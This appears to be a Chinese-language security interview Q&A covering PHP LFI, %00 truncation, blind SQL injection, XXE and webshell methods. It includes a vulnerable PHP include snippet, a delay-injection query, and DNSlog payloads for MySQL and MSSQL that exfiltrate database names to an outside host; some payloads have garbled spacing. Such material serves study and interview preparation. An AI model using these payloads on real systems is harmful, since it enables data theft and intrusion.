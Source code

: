 **24.Linux日志目录？**

- /var/log下

**25.php的%00截断的原理是什么？**

- 因为在C语言中字符串的结束标识符%00是结束符号，而PHP就是C写的，所以继承了C的特性，所以判断为%00是结束符号不会继续往后执行
- 条件：PHP<5.3.29，且GPC关闭。

**26.php的LFI，本地包含漏洞原理是什么？写一段带有漏洞的代码。手工的话如何发掘？如果无报错回显，你是怎么遍历文件的？**

```php
if ($_GET['file']){
    include $_GET['file'];
}
```

- 包含的文件设置为变量，并且无过滤导致可以调用恶意文件 还可以对远程文件包含，但需要开启allow_url_include = ON 通过测试参数的地方进行本地文件/etc/passwd等包含 如何存在漏洞而且没有回显，有可能没有显示在页面而是在网页源代码中，除些可以利用DNSlog进行获取包含的信息。从index.php文件一级级往读取 也可以利用PHP封装协议读取文件

**27.sleep被禁用后还能怎么进行sql注入**

- BENCHMARK，Get_lock函数，当都被禁用后可以用计算量比较大的语句使数据库查询时间变长，从而达到延时注入的效果。 mysql：`AND (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);`

**28.XXE的危害？哪些地方容易存在xxe？xxe架构方面有没有了解过**

- xxe常见场景是如pdf在线解析、word在线解析、定制协议，留言板等，跟逻辑设计有关而与语言无关，最好是不要让XML作为参数传输或整体结构可被用户篡改。如果一定要使用，至少要禁用DTD、Entity。 xxe危害 读取本地文件，执行系统命令，探测内网端口，攻击内网服务 探测内网端口的协议有gopher file dict，不同语言支持不同的协议，是具体情况而定 file http ftp是常用的
- 防范，python用lxml时可以对resolve_entities设为false。或者过滤用户提交的xml
- 客户端也可以有xxe攻击，有的网站会使用office打开docx进行解析 Java解析XML的常用三方库，如果不禁用DTD、Entity都会导致XXE漏洞：javax.xml.stream.XMLStreamReader;javax.xml.parsers.DocumentBuilderFactory;

**29.信息收集如何处理子域名爆破的泛解析问题？**

- 参考文章：https://blog.csdn.net/Chu_Jian_Xiong/article/details/127496889

**30.输出到href的XSS如何防御？**

- 参考文章：https://blog.csdn.net/m0_53008479/article/details/124487401

**31.samesite防御CSRF的原理？**

- 参考文章：https://blog.csdn.net/qq_26192391/article/details/116378150

**32.phpmyadmin写sehll的方法？**

- 常规导入shell的操作
- 一句话导出shell
- 日志备份获取shell

**33.Sql注入无回显的情况下，利用DNSlog，mysql下利用什么构造代码？mssql下又如何？**

- 没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁IP，可以尝试调整请求频率，有条件的使用代理池进行请求。
- 此时也可以使用DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取DNS 解析时的日志，来获取想要的信息。
- Mysql 中利用load_file() 构造payload： ' and if((select load_file(concat('\\',(selectdatabase()),'.xxx.cey e.io\abc'))),1,0)#
- Mssql 下利用master..xp_dirtree 构造payload：DECLARE @ hostvarchar(1024);SELECT @ host=(SELECTdb_name())+'.xxx.ceye.io';EXEC('master..xp_dirtree"'+@host+'\foobar$"');
